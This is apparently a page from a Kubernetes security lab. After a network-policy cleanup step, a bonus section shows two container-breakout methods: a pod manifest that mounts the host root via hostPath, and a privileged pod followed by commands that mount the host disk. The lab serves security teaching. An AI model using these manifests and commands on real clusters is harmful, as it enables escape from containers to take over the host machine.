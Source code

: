 

Cleanup
Remove the network policy. 
kubectl delete networkpolicy default-deny-egress


Bonus Lab: Kubernetes Security Exploits
Method 1: Host Path
You could deploy a pod with a host path that mounts a path in the root machine, effectively granting you access to the entire machine. Note that if you grant someone (a developer, a cicd pipeline, or even a service account) too much access they could do this to easily break out. 

apiVersion: v1
kind: Pod
metadata:
  name: test-pd
spec:
  containers:
  - image: nginx:bookworm
    name: test-container
    volumeMounts:
    - mountPath: /mnt/hole
      name: test-volume
  volumes:
  - name: test-volume
    hostPath:
      path: /
Method 2: Exploit Privileged Access
Deploy a pod with privileged:
apiVersion: v1
kind: Pod
metadata:
  name: nginx
spec:
  containers:
  - image: nginx:bookworm
    name: nginx
    securityContext: 
      allowPrivilegeEscalation: true
      privileged: true
status: {}

Then open a command shell (as if broken into) and run these commands: (may be /dev/sda1 instead of /dev/vda1)
mkdir /mnt/hole
mount /dev/vda1 /mnt/hole
Appendix
CDK - Kubernetes Exploitation Toolkit
Docker Breakout Guide
Another Docker Breakout Guide
Yet Another Docker Breakout Guide
Kubernetes Pentesting Guide

